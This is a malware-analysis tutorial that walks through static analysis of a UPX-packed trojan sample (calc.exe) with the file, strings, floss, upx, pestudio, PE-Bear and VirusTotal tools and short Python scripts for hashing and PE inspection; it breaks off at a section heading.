## Identifying the File Type

The first point of analysing a malware is to identify the file type.

### Using file command

You can do it by using the `file` command present in the Remnux VM as shown in the following image.

> Note:
> The `file` command is available by default in Linux based systems, but not available in Windows. There are some workarounds for getting `file` command in Windows like [WSL](https://learn.microsoft.com/en-us/windows/wsl/), [Cygwin](https://cygwin.com/) or [fil](https://github.com/file-go/fil).

```bash
file <path_to_file>
```


From the result of the `file` command, we can identify that the given malware is Portable Executable type. Also it mentions that the given file is compressed using `UPX`. We will learn more about `UPX` in the `Detecting Packing and Obfuscation` section.

### Using PEiD

PEiD is used to identify whether the given file is a Windows Executable or specifically Portable Executable. It can't identify other file types and will show the error `Not a valid PE file`.


### Using HEX Viewer/Editor

You can also manually identify the file type using any of the Hex viewers/editors. In my case I am using the `HxD` Hex editor.

Every file has a file signature know as [magic bytes](<https://en.wikipedia.org/wiki/Magic_number_(programming)#In_files>). You can detect the type of file by comparing the first few hex bytes of the file to this [List of File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures). A Portable Executable file always starts with the bytes `4D 5A` which is decoded as [MZ](https://en.wikipedia.org/wiki/DOS_MZ_executable) as shown in the following image.


### Using Python

You can identify the file type using the Python's [python-magic](https://pypi.org/project/python-magic/) library. You can install it using the `pip` using the following command.

```bash
pip3 install python-magic
```


`python-magic` depends on the `libmagic` library which you can install by executing the installation commands as mentioned in the official documentation as shown in the image below.


Now open your favourite text editor, copy and paste the following python code and save it. The following python code reads the file and prints its MIME [ File ] type.

```python
#! /usr/bin/python3

import magic

print(magic.from_file('calc.exe', mime=True))
```


Now execute the python script as shown in the following image.


The `python-magic` library identifies the given file as a `application/x-dosexec` MIME type, which refers to the Portable Executable file type. The `file` command is more descriptive compared to the above output.

## Fingerprinting the Malware

Fingerprinting the malware is the process of generating unqiue sigantures of the malicious file, which can be used to identify and classify the same malware if found somewhere else in the wild. A unique signature for a malware can be generated using [hashing](https://www.geeksforgeeks.org/what-is-hashing/) algorithms such as **MD5**, **SHA256** etc.,.

### Generating file hash in Linux

In Linux, to generate a **MD5** hash of a file, you can use the `md5sum` command. Likewise to generate a **SHA256** hash of a file, you can use the `sha25sum` command. The command syntax is as follows,

```bash
# For calculating MD5 hash
md5sum <path_to_file>

# For calculating SHA256 hash
sha256sum <path_to_file>
```


### Generating file hash in Windows

In Windows, we can use the **Powershell's** `Get-FileHash` utility to generate hashes. The command syntax is as follows,

```powershell
# For calculating MD5 hash
Get-FileHash -Algorithm MD5 <path_to_file>

# For calculating SHA256 hash
Get-FileHash -Algorithm SHA256 <path_to_file>
```


### Generating file hash using Python

You can generate file the hash of a file in Python using the `hashlib` library. The following python script generates the `MD5`, `SHA1`, `SHA256` and `SHA384` hashes for the given file.

```python
#! /usr/bin/python3

import hashlib

content = open('calc.exe', 'rb').read()

print(hashlib.md5(content).hexdigest())
print(hashlib.sha1(content).hexdigest())
print(hashlib.sha256(content).hexdigest())
print(hashlib.sha3_384(content).hexdigest())
```

The output of the above python script is shown in the following image.


## File Hash Lookup

File Hash Lookup is the process of searching large antivirus databases for the file hash generated in the previous section. This search aims to determine if the malware is new or has already been identified and analyzed by security experts. The primary objective is to understand the malware's behavior and characteristics based on previous analyses. If the file signature matches an entry in the database, it helps determine whether the given file is malicious. One such well known database is [VirusTotal](https://www.virustotal.com/).

### Using the VirusTotal Website

You can search for file hashes in **VirusTotal** using the search feature present in their website. Here is the link for the search feature in their website: [https://www.virustotal.com/gui/home/search](https://www.virustotal.com/gui/home/search). We will use the `SHA256` hash of the given file that we generated in the last section to search the **VirusTotal** database as shown in the following image.


From the results of the above search, we can see that **VirusTotal** has identified the given file as a Trojan. Also the tags present in the results `peexe`, `upx`, `overlay` shows that this file is a Portable Executable which is compressed with `UPX` and has a overlay as shown in the following image.


You can find more details about the file in the **Details** section as shown in the below image, such as the different hash values of the file, file and magic type and also results of other static analysis tools that we will discuss in the following sections.


The details section contains the `creation time` of the file, the different file names that the malware is seen in the wild and more as shown in the following image.


Also you can find details about different PE sections and imports used by the file.


The details section also shows the details about the overlay present in the given file.


Under the **Behaviour** tab, you can find the **Activity Summary** section, which shows the malwares activity that was captured and identified by the different automated sandbox environments that is mentioned in **Behaviour** tab.


The following image shows the files that were dropped by the malware and its activity with the Windows registry keys.


### Using VirusTotal API with Python

[VirusTotal's API](https://docs.virustotal.com/docs/api-overview) lets you upload and scan files, submit and scan URLs, access finished scan reports and make automatic comments on URLs and samples without the need of using the HTML website interface.

[vt-py](https://github.com/VirusTotal/vt-py) is the official Python client library for the [VirusTotal API v3](https://docs.virustotal.com/reference/overview). You can find the documentation for the `vt-py` client [here](https://virustotal.github.io/vt-py/index.html).

You can install vt-py using `pip` as mentioned in their official documentation.


```powershell
pip3 install vt-py
```


To interact with the VirusTotal API you need the API key, which you can get by creating a free account in VirusTotal. You can find the API key at the following endpoint as shown in the following image.

Endpoint: `https://www.virustotal.com/gui/user/<username>/apikey`


Once you got the api key replace it in the following python script. The following python script shows some of the basic functionalities of the **VirusTotal API** such as querying information about a file/url, to upload a file and get the analysis report.

```python
#! /usr/bin/python3

import vt

client = vt.Client("<apikey>")

# Get information about a file
# Ask for the file you are interested in, you can replace the hash in the example with some other SHA-256, SHA-1 or MD5
file = client.get_object("/files/9b66a8ea0f1c64965b06e7a45afbe56f2d4e6d5ef65f32446defccbebe730813")
print(file.last_analysis_stats)

# Get information about an URL
url_id = vt.url_id("http://testphp.vulnweb.com/")
url = client.get_object(f"/urls/{url_id}")
print(url.last_analysis_stats)
print(url.first_submission_date, url.last_submission_date)

# Scan a file
with open("calc.exe", 'rb') as file:
    analysis = client.scan_file(file, wait_for_completion=True)
    print(analysis.stats)

# Scan a URL
url_analysis = client.scan_url('http://testphp.vulnweb.com/')
print(url_analysis)

client.close()
```

Update the python script with the API key and save the python script as shown in the following image.


Now execute the python script. The following image shows the output of the python script.


> Note:
> The public version of the VirusTotal API has some limits. You can find more details about the limits [here](https://virustotal.readme.io/reference/public-vs-premium-api).

## Comparing and classifying malware

Malware comparison and classification involves analyzing distinct malware samples to identify similarities and differences in their behavior, techniques, and origins.

### Fuzzy Hashing

[Fuzzy Hashing](https://en.wikipedia.org/wiki/Fuzzy_hashing) involves dividing a file into smaller segments, often based on continuous strings of significant length. Each segment is then hashed individually, and the resulting hash values are combined to create a single, representative hash for the entire file. This technique is particularly useful for identifying similarities between files, especially when dealing with malware variants that exhibit the same core functionality despite minor variations.

[ssdeep](https://github.com/ssdeep-project/ssdeep) is a fuzzy hashing tool that can be used to compare similarities between malware.

#### Using ssdeep standalone version

You can get the latest release of `ssdeep` [here](https://github.com/ssdeep-project/ssdeep/releases). The syntax for running `ssdeep` is given below .

```bash
ssdeep <path_to_file/files>
```

You can see the output of `ssdeep` in the following image.



#### Using ssdeep with python

The [https://pypi.org/project/ssdeep/](https://pypi.org/project/ssdeep/) is a `ssdeep` Python wrapper. Thus the ssdeep tool is a prerequisite. We can use this to calculate ssdeep hash using python.

The build will fail if the ssdeep library isn’t installed. To use the included version of the ssdeep library use the following command.

```bash
BUILD_LIB=1 pip3 install ssdeep
```


The following python script generates the `ssdeep` hash for two files and comparse them.

```python
import ssdeep

hash1 = ssdeep.hash_from_file("calc.exe")
hash2 = ssdeep.hash_from_file("calc.zip")

print(hash1)
print(hash2)

print(ssdeep.compare(hash1, hash2))
```

Copy and paste the above code and save the python script.


Now run the script. The result of the above script is shown in the following image. From the result we can see a `0` in the last line, which means that are no similarites between the files.


### Import Hashing

[Import hashing](https://cloud.google.com/blog/topics/threat-intelligence/tracking-malware-import-hashing/) is the process of creating a hash based on the names of library and API imports in a executable file in the order they are imported. You can calculate the import hash of a executable using python's [pefile](https://github.com/erocarrera/pefile) library.

You can install the `pefile` library using `pip`.

```powershell
pip3 install pefile
```



Once installed, create a new python script with the following code. The python script calculates the import hash for the given file.

```python
import pefile

pe = pefile.PE("calc.exe")

print(pe.get_imphash())
```


The import hash generated for the `calc.exe` file is shown in the following image.



### PE Sections Hashing

PE Section Hashing involves generating a unique hash value for each section within a Portable Executable (PE) file. This technique enables the comparison of different versions of malware by identifying modifications made to specific sections of the PE file.

The following python script uses the `pefile` python library to calculate the section hashes.

```python
import sys
import pefile


def main():
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_pe_file>")
        sys.exit(1)

    pe_file = sys.argv[1]
    pe = pefile.PE(pe_file)

    print(
        f"| {'Section Name'.center(16)} | {'MD5'.center(34)} | {'SHA256'.center(66)} |"
    )
    print(f"|{'-'*18}|{'-'*36}|{'-'*68}|")

    for section in pe.sections:
        section_name = section.Name.decode("utf-8").strip("\x00")
        md5_hash = section.get_hash_md5()
        sha256_hash = section.get_hash_sha256()
        print(
            f"| {section_name.center(16)} | {md5_hash.center(34)} | {sha256_hash.center(66)} |"
        )


if __name__ == "__main__":
    main()
```



The output of the above script is shown in the following image.



## Extracting and Analysing Strings

Extracting and analyzing strings from a binary file can provide valuable insights into its purpose and functionality. By identifying and examining text sequences within the file, you can gain clues about its file type, intended behavior, and potential malicious activities.

### Using strings command

The `strings` command is available on Linux systems. It can be used to extract strings from a binary. For Windows you can get the Strings executable from the **Sysinternals Suite** [here](https://learn.microsoft.com/en-us/sysinternals/downloads/strings).

The strings command, by default, extracts the ASCII strings that are at least four characters long. With the -a option it is possible to extract all the strings from the entire file.

```bash
strings -a calc.exe
```

Malware specimens also use Unicode (2 bytes per character) strings. To get useful information from the binary, sometimes you need to extract both ASCII and Unicode strings. To extract Unicode strings using the strings command, use the -el option.

```bash
strings -a -el calc.exe
```

From the output of the `strings` command for the `calc.exe` file, we can see some strings such as `UPX0`, `UPX1` which shows that the file is compressed with UPX.


We can also see some XML details which are part of the `manifest.xml` file as shown in the following image.


### Using Flare Floss

Most of the times, malware authors use simple string obfuscation techniques to avoid detection. In such cases, those obfuscated strings will not show up in the strings utility and other string extraction tools.[FireEye Labs Obfuscated String Solver (FLOSS)](https://github.com/mandiant/flare-floss) is a tool designed to identify and extract obfuscated strings from malware automatically. It can help you determine the strings that malware authors want to hide from string extraction tools. FLOSS can also be used just like the strings utility to extract human-readable strings (ASCII and Unicode).

```bash
floss <path_to_file>
```

The `floss` command provides a concise summary of its functionality, while producing significantly less output compared to the `strings` command.



The following image shows the same XML details which are part of the `manifest.xml` that the `strings` command extracted.



## Detecting Packing and Obfuscation

Malware often uses obfuscation or packing to hide its code. PE packers modify Portable Executable (PE) files, which are the standard format for executables in Windows. Packers compress or obfuscate the executable’s code to hinder analysis and reverse engineering. This is widely used in both legitimate software (to protect intellectual property) and malware (to evade detection).

### Executable Compression

```
Original PE File:
+----------------------+-----------------+--------------+
| PE Header & Sections | Executable Code | Overlay Data |
+----------------------+-----------------+--------------+

Executable Compression:
+----------------------+-----------------+--------------+
| PE Header & Sections | COMPRESSED Code | Overlay Data |
+----------------------+-----------------+--------------+
```

- **Definition:**
  Executable compression refers to reducing the size of the PE file by compressing its executable code and resources. When executed, the packed file decompresses itself in memory to restore its original form.
- **Purpose:**
  - To save disk space or reduce download size.
  - To protect against static analysis and reverse engineering.
- **Process:**
  - Compress the `.text` (code) section and other sections of the PE file.
  - Embed a decompression routine within the PE header.
- **Example Tool:**
  - **UPX (Ultimate Packer for Executables):** Open-source tool widely used to compress executables.

### Overlay Compression

```
Original PE File:
+----------------------+-----------------+--------------+
| PE Header & Sections | Executable Code | Overlay Data |
+----------------------+-----------------+--------------+

Overlay Compression:
+----------------------+-----------------+--------------------+
| PE Header & Sections | Executable Code | COMPRESSED Overlay |
+----------------------+-----------------+--------------------+

```

- **Definition:**
  An overlay in a PE file refers to any data appended to the end of the file that is not part of the standard PE structure (e.g., signatures, metadata, or additional resources).
- **Overlay Compression:**
  - Compresses the appended data (overlay) separately from the rest of the PE file.
  - Useful when the PE file contains non-executable resources like embedded configuration data or payloads.
- **Real-World Use:**
  - Malware often uses overlays to hide encrypted payloads or malicious code.
- **Process:**
  - The packer compresses the overlay data and inserts decompression logic within the PE file.

### Hybrid compression

```
Original PE File:
+----------------------+-----------------+--------------+
| PE Header & Sections | Executable Code | Overlay Data |
+----------------------+-----------------+--------------+

Hybrid Compression:
+----------------------+-----------------+--------------------+
| PE Header & Sections | COMPRESSED Code | COMPRESSED Overlay |
+----------------------+-----------------+--------------------+

```

- **Definition:**
  Hybrid compression combines both executable compression and overlay compression. It compresses the executable sections of the PE file along with any overlay data appended to the file.
- **Purpose:**
  - Maximizes compression efficiency.
  - Provides an additional layer of obfuscation for files containing both executable code and appended data.
- **Example Scenario:**
  - Compressing both the PE file’s `.text` section and the appended payload to evade detection and reduce file size.

The following image shows the tools to detect packing and obfuscation


### Using DIE

Open the malicious file in Detect It Easy (DiE). **DiE** has detected that the `calc.exe` is packed with UPX and also it detects that there is overlay which is a Autoit compiled script as shown in the following image.


### Using ExeInfo PE

Now let's try ExeInfo PE. ExeInfo PE detects that the given file has an overlay which is a AutoIt script and provides suggestions on how to extract the script, in this case it suggests to use the tool `Exe2Aut.exe` as shown in the following image.


### UPX

[UPX](https://github.com/upx/upx) - The Ultimate Packer for eXecutables

- A widely used open-source tool for executable compression.
- Compresses the `.text` section of the PE file while leaving other sections untouched.

We can detect whether an executable is packed with **UPX** or not by using the following command.

```powershell
# In Windows OS
upx.exe .\calc.exe
```

```bash
# In Remnux
upx ./calc.exe
```

UPX detects that `calc.exe` is already packed with `UPX` as shown in the following image.


The same thing in Remnux as follows,


We can unpack/decompress a `UPX` packed binary using the following command.

```powershell
# In Windows OS
upx.exe -d -o unpacked_calc.exe .\calc.exe
```

```bash
# In Remnux
upx -d -o unpacked_calc.exe ./calc.exe
```

We can see that `UPX` has unpacked the calc.exe as shown in the following image.


The same thing in Remnux as follows,


Now let's try the `strings` command on the unpacked binary to see the difference between packed and unpacked binary. I have redirected the output of the `strings` command to a text file as the output of `strings` command will be large as shown in the following image.


This time we can see more long strings from the output of strings command as shown in the following image.


We can see some functions, DLL names as shown in the following image.


Let's try the `floss` command on the unpacked binary. I am also redirecting the floss output to a text file as shown in the following image.


This time, from the `floss` results summary, we can see that it have found some stack and tight strings, also it has decoded some strings as shown in the image below.


Floss has also detected some long strings, some of which are error messages.


There are some windows registry paths in the output as shown in the following image.


## Portable Executable Analysis

Examining the PE structure of Windows executables (e.g., headers, sections, imports) provides insight into its functionality and dependencies. This can be done using a lot of tools. We will be focusing on two tools mainly, [pestudio](https://www.winitor.com/) and [PE-Bear](https://github.com/hasherezade/pe-bear). We will be using the [pefile](https://github.com/erocarrera/pefile) library for PE analysis with python.

You can find some common DLLs that you might encounter during analysis [here](https://en.wikipedia.org/wiki/Microsoft_Windows_library_files).

### Inspecting file dependencies and imports

Understanding the imports and dependencies of a binary can help us to understand the capabilities of a binary. For example, if a binary imports `Kernel32.dll`, then it has the ability to create new threads, allocate memory etc.,. Another example is the `advapi32.dll`, which provides abilities to interact with the Windows registry.

[MalAPI.io](https://malapi.io/) maps Windows APIs to common techniques used by malware. By comparing the APIs that a malware use by importing from these DLLs with [MalAPI.io](https://malapi.io/), we can get some more insights on what the malware is trying to achieve.

#### Using pestudio

First open the malware with **pestudio**. In **pestudio** you can find the imports under the `imports` section as shown in the following image. **pestudio** directly shows all the APIs that are imported from the specific DLLs. It also shows the possible MITRE attack techniques such as `Process Injection` under the `techniques` column.


#### Using PE-Bear

In **PE-Bear**, you can find the imports under the `Imports` tab. You can see the API functions that the malware uses from those specific DLLs by click on each of them. The APIs are shown in the tab below the list of DLLs as shown in the following image.


#### Using Python

The following python script extracts all the APIs that are imported from specific DLLs and prints them.

```python
import pefile

pe = pefile.PE("calc.exe")

if hasattr(pe, 'DIRECTORY_ENTRY_IMPORT'):
    for each in pe.DIRECTORY_ENTRY_IMPORT:
        print(f'$ {str(each.dll, "utf-8")}')
        for some in each.imports:
            if some.name:
                print(f'\t|- {str(some.name, "utf-8")}')
            else:
                print(f'\t|- Ordinal: {some.ordinal}')
```

Update the file name and save the script.



Now run the script. The following image shows the output of the above python script for the `calc.exe` binary.


### Inspecting exports

Exports in Dynamic Link Libraries (DLLs) and executables are functions made available for use by other programs. While exports in executables are uncommon, they are abundant in DLLs, as their primary purpose is to provide reusable library functions. Notably, malware can also manifest itself as malicious DLLs.

#### Using pestudio

In **pestudio** you can find the exports under the `exports` section. In this case there is `Not Available (n/a)` in the `calc.exe` binary as shown in the following image.



#### Using PE-Bear

In PE-Bear there will be a tab called `Exports` which lists all the exports, but you can't see it for the `calc.exe` as there are no exports.


But let's try to view the exports of the `C:\Windows\System32\kernel32.dll` file. We are able to see a lot of exports under the `Exports` tab as shown in the following image.



#### Using Python

Now lets extract the exports using the following python script.

```python
import pefile

pe = pefile.PE("C:\Windows\System32\kernel32.dll")

if hasattr(pe, 'DIRECTORY_ENTRY_EXPORT'):
    for each in pe.DIRECTORY_ENTRY_EXPORT.symbols:
        print(str(each.name, 'utf-8'))
```

First lets try for `calc.exe`. Update the file path in the above script and save it.


Execute the script. The script doesn't print any output as there are no exports present in the `calc.exe` file.


Now let's try to extract the exports from `C:\Windows\System32\kernel32.dll`. Upate the script and execute it.


The above script successfully extracted all the exports available in the `kernel32.dll` as shown in the following image.


### Examining PE Table and Sections

Its important to analyse the sections of a PE file as it will be useful while reverse engineering. Understanding the offsets between each section will help us to identify the correct section under the disassembled view of a decompiler. It will also help to identify whether if a shellcode or some executable binary that is to be loaded into memory is already memory mapped or not.

#### Using pestudio

The PE sections can be found under the `sections` section of the **pestudio** as shown in the following image. We can see the `raw-address` and `raw-size` which refers to the address offsets while stored in disk and the `virtual-address` and `virtual-size` refers to the address offsets while loaded into memory or disassembler.


#### Using PE-Bear

In PE-Bear you can find the PE-Sections under the Section Headers tab.



#### Using Python

